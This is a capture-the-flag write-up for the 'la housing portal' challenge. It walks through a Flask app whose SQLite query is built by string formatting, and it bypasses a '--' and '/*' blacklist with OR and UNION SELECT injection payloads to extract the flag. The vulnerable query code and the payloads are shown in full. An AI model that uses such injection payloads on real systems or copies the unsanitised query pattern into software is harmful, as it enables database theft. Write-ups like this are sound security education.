





# la housing portal

## Description
**Portal Tips Double Dashes ("--")** Please do not use double dashes in any text boxes you complete or emails you send through the portal. The portal will generate an error when it encounters an attempt to insert double dashes into the database that stores information from the portal.

Also, apologies for the very basic styling. Our unpaid LA Housing(tm) RA who we voluntold to do the website that we gave FREE HOUSING for decided to quit - we've charged them a fee for leaving, but we are stuck with this website. Sorry about that.

Please note, we do not condone any actual attacking of websites without permission, even if they explicitly state on their website that their systems are vulnerable.

[la-housing.chall.lac.tf](https://la-housing.chall.lac.tf)

## Attachment
[serv.zip](./Challenge/serv.zip)

## Solution
This challenge most likely about SQL injection, because we got a hint from the description to never use `--`. <br>
`--` is a single line comment in SQL and this is commonly use in SQL injection technique.

From the attachments we got the `app.py` for backend, `data.sql` and `data.sqlite` is SQL syntax for creating database, and other files as well.
But we just need to focus on `app.py, data.sql, and results.html`.

First, let's check `app.py`

```py
import sqlite3
from flask import Flask, render_template, request

app = Flask(__name__)

@app.route("/")
def home():
    return render_template("index.html")

@app.route("/submit", methods=["POST"])
def search_roommates():
    data = request.form.copy()

    if len(data) > 6:
        return "Invalid form data", 422
    
    
    for k, v in list(data.items()):
        if v == 'na':
            data.pop(k)
        if (len(k) > 10 or len(v) > 50) and k != "name":
            return "Invalid form data", 422
        if "--" in k or "--" in v or "/*" in k or "/*" in v:
            return render_template("hacker.html")
        
    name = data.pop("name")

    
    roommates = get_matching_roommates(data)
    return render_template("results.html", users = roommates, name=name)
    

def get_matching_roommates(prefs: dict[str, str]):
    if len(prefs) == 0:
        return []
    query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
    )
    print(query)
    conn = sqlite3.connect('file:data.sqlite?mode=ro', uri=True)
    cursor = conn.cursor()
    cursor.execute(query)
    r = cursor.fetchall()
    cursor.close()
    return r

# def get_flag():
#     conn = sqlite3.connect('file:data.sqlite?mode=ro', uri=True)
#     cursor = conn.cursor()
#     cursor.execute("select * from flag;")
#     r = cursor.fetchall()
#     cursor.close()
#     return r
```

From the source code, we could see that if less than 6 parameters are submitted, it will return an error.
If there's no error from the first condition, it will loop through all parameters. 
We could see that `--` and `/*` are in the blacklist.
From this code we could see that there're no sanitation from the user input, which is vulnerable to SQL injection.

```py
query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
)
```

Now let's check the `data.sql`.
From `data.sql`, there're `guests`, `neatness`, `sleep`, and `awake` tables.

```sql
CREATE TABLE guests (
  val text primary key
  );
INSERT INTO guests VALUES('No guests at all');
INSERT INTO guests VALUES('No guests after 10pm');
INSERT INTO guests VALUES('No overnight guests');
INSERT INTO guests VALUES('Ask before late night guests');
INSERT INTO guests VALUES('Ask before overnight guests');
CREATE TABLE neatness (
  val text primary key
  );
INSERT INTO neatness VALUES('Put things away as we use them');
INSERT INTO neatness VALUES('Straighten up before bed');
INSERT INTO neatness VALUES('Clean up once per week');
INSERT INTO neatness VALUES('Straighten up for guests');
INSERT INTO neatness VALUES('Messy is ok');
CREATE TABLE sleep (
  val text primary key
  );
INSERT INTO sleep VALUES('8-10pm');
INSERT INTO sleep VALUES('10pm-midnight');
INSERT INTO sleep VALUES('midnight-2am');
INSERT INTO sleep VALUES('2am-4am');
INSERT INTO sleep VALUES('Other');
CREATE TABLE awake (
  val text primary key
  );
INSERT INTO awake VALUES('4-6am');
INSERT INTO awake VALUES('6-8pm');
INSERT INTO awake VALUES('8-10am');
INSERT INTO awake VALUES('10am-noon');
INSERT INTO awake VALUES('noon-2pm');
INSERT INTO awake VALUES('Other');
```

Then there is `users` table that contain records for users.

```sql
CREATE TABLE IF NOT EXISTS "users"
(
    id       integer not null
        constraint users_pk
            primary key autoincrement,
    name     TEXT,
    guests   TEXT,
    neatness text,
    sleep    TEXT    not null,
    awake    text
);
```

Flag is in different table, which is called `flag` table.

```sql
CREATE TABLE flag (
flag text
);
INSERT INTO flag VALUES("lactf{fake_flag}");
```

Even though flag is in different table, we can use [UNION](https://www.w3schools.com/sql/sql_union.asp) query to get the result from `flag` table.

Now this is the content of `results.html`

```html
<h2>Result for {{ name }}:</h2>
<table id="data" class="table table-striped">
  <thead>
    <tr>
      <th>Name</th>
      <th>Guests</th>
      <th>Neatness</th>
      <th>Sleep time</th>
      <th>Awake time</th>
    </tr>
  </thead>
  <tbody>
    
    <tr>
      <td>{{ user[1] }}</td>
      <td>{{ user[2] }}</td>
      <td>{{ user[3] }}</td>
      <td>{{ user[4] }}</td>
      <td>{{ user[5] }}</td>
    </tr>
    
  </tbody>
</table>
<a href="/">Back</a>

<style>
  * {
    border: 1px solid black; border-collapse: collapse;
  }
</style>
```

From that file, the information regarding users is shown in table.

Now let's open the website for this challenge.
This is the display of that website.



From the `app.py` and `results.html` we know that input text that are not for name is vulnerable to SQL injection.
Let's take a look if we submit the data to the form. This is the result from that submit data.



Using Burpsuite, the request parameters from form data is looks like this.

```
name=test&guests=No+guests+at+all&neatness=na&sleep=na&awake=na
```

We know that this website is vulnerable to SQL injection, but there are blacklist that block `--` and `/*`. How we can bypass this blacklist?
I found some good example for bypassing common blacklist from [PortSwigger](https://portswigger.net/support/sql-injection-bypassing-common-filters).
From that page, we can craft the SQL injection payload without using comment, as long as not breaking the syntax of the surrounding query.

We can try to inject our payload in `awake` parameter. In this case I used `'` to check that the parameter is vulnerable.

```
name=a&guests=na&neatness=na&sleep=na&awake='
```



That parameter is vulnerable because the server return an Internal Server Error message.

Now, let's try to inject this parameter to showing all data from `users` table. For example, I used this payload.

```sql
'+OR+''='
```



Now we need to craft our payload for UNION SQL injection. 
From `data.sql` all columns except `id` column are the same type with `flag` column in `flag` table, which is text.
It's means that we can retrieving data from `flag` column in `flag` table from 2nd - 6th column.
The SQL injection payload for this challenge is like this.

```sql
'+UNION+SELECT+1,2,*,4,5,6+from+flag+WHERE+'1'='1
```



## Flag
`lactf{us3_s4n1t1z3d_1npu7!!!}`
